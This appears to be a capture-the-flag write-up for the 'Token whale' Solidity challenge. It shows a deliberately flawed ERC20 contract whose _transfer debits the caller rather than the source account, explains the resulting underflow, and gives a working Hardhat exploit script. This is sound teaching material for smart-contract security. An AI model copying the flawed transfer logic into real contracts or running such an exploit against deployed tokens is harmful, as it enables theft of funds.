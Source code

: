 # Token whale

## topic

```solidity
pragma solidity ^0.4.21;

contract TokenWhaleChallenge {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;

    function TokenWhaleChallenge(address _player) public {
        player = _player;
        totalSupply = 1000;
        balanceOf[player] = 1000;
    }

    function isComplete() public view returns (bool) {
        return balanceOf[player] >= 1000000;
    }

    event Transfer(address indexed from, address indexed to, uint256 value);

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;

        emit Transfer(msg.sender, to, value);
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    event Approval(address indexed owner, address indexed spender, uint256 value);

    function approve(address spender, uint256 value) public {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
    }

    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);

        allowance[from][msg.sender] -= value;
        _transfer(to, value);
    }
}
```

## analyse

### _transfer

- this level is about ERC20, but there is a big mistake in it. Let's look at `_transfer()` :
  - `_transfer()` normally has three parameters but it doesn't. Always he minus `balanceOf[msg.sender]` but not the `balanceOf[_from]`, it means that it will cause some problem in transFrom()
  - no check in `balanceOf[msg.sender] -= value;`, maybe it can cause an integer overflow vulnerable

```solidity
    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;

        emit Transfer(msg.sender, to, value);
    }
    
    /*
    //ERC20 OpenZeppelin implementation
    function _transfer(address from, address to, uint256 amount) internal virtual {
        require(from != address(0), "ERC20: transfer from the zero address");
        require(to != address(0), "ERC20: transfer to the zero address");

        _beforeTokenTransfer(from, to, amount);

        uint256 fromBalance = _balances[from];
        require(fromBalance >= amount, "ERC20: transfer amount exceeds balance");
        unchecked {
            _balances[from] = fromBalance - amount;
            // Overflow not possible: the sum of all balances is capped by totalSupply, and the sum is preserved by
            // decrementing then incrementing.
            _balances[to] += amount;
        }

        emit Transfer(from, to, amount);

        _afterTokenTransfer(from, to, amount);
    }
    */
```

### transferFrom()

this three `require` is normal and right, it looks easy to pass and no problems in it. after the `require`, allowance minus, it is also right. But `_transfer(to,value)` is wrong: We can see from the above analysis, `_transfer()` will minus msg.sender's balance but now the from's balances! It is a logical error.

```solidity
    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);

        allowance[from][msg.sender] -= value;
        _transfer(to, value);
    }
```

this is the first possible attack thread:

1.The player has 1000 ETH at first, and then we can bring in another account "attacker" to collaborate together

2.player transfers 1000 ETH to attacker.【player: 0 ETH, attacker: 1000 ETH】

3.attacker approves player 1000 ETH.【allowance [msg.sender] [spender] = 1000】

4.player transferFrom() 1000 ETH to address(0)【because player 0 ETH , `_transfer()` will minus 1000 ETH from player but now attacker! It will cause an integer overflow】

## solution

```js
import { expect } from "chai";
import { ethers } from "hardhat";

describe("TokenWhaleChallenge", () => {
  it("Solves the challenge", async () => {
    //1.The player has 1000 ETH at first, and then we can bring in another account "attacker" to collaborate together
    const [player, attacker] = await ethers.getSigners();

    const playerAddress = await player.getAddress();
    const challengeFactory = await ethers.getContractFactory("TokenWhaleChallenge");
    //【player: 1000 ETH】
    const challengeContract = await challengeFactory.deploy(playerAddress);
    await challengeContract.deployed();

    //2.player transfers 1000 ETH to attacker.【player: 0 ETH, attacker: 1000 ETH】
    const transferTx = await challengeContract.connect(player).transfer(attacker.address, 1000);
    await transferTx.wait();
      
    //3.attacker approves player 1000 ETH.【allowance [msg.sender] [spender] = 1000】
    const approveTx = await challengeContract.connect(attacker).approve(player.address, 1000);
    await approveTx.wait();

    //4.player transferFrom() 1000 ETH to address(0)【because player has 0 ETH , `_transfer()` will minus 1000 ETH from player but now attacker! It will cause an integer overflow】
    const transferFromTx = await challengeContract
      .connect(player)
      .transferFrom(attacker.address, "0x0000000000000000000000000000000000000000", 1000);
    await transferFromTx.wait();

    expect(await challengeContract.isComplete()).to.be.true;
  });
});
```
